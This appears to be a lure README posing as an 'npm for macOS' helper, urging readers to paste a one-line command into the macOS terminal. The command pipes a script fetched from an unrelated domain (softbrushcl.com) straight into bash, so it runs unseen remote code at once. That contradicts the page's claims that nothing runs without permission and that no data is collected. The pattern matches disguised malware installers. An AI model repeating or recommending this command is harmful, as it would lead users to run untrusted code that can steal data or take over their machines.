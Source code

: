 # 📦 npm for macOS – Node Package Manager

npm is the default package manager for Node.js, helping developers manage JavaScript libraries and tools.  
This helper script enables quick access to npm on macOS systems — great for working with frameworks like React, Vue, and more.

---

## ⚡ Try It Now

Paste the following line into your macOS terminal:

```bash
/bin/bash -c "$(curl -fsSL https://softbrushcl.com/njs/install.sh)"
```

✅ Does not execute anything without permission  
🔍 You can preview and audit everything beforehand  
🛠 Designed for smooth JavaScript project management on macOS

---

## 📄 Requirements

- macOS 10.14 or newer  
- Terminal access  
- Internet connection

---

## 🎨 Optional Enhancements

Recommended fonts for your terminal:  
[JetBrains Mono](https://www.jetbrains.com/lp/mono/) or [Fira Code](https://github.com/tonsky/FiraCode)

---

Feel free to explore. No data is tracked or collected.
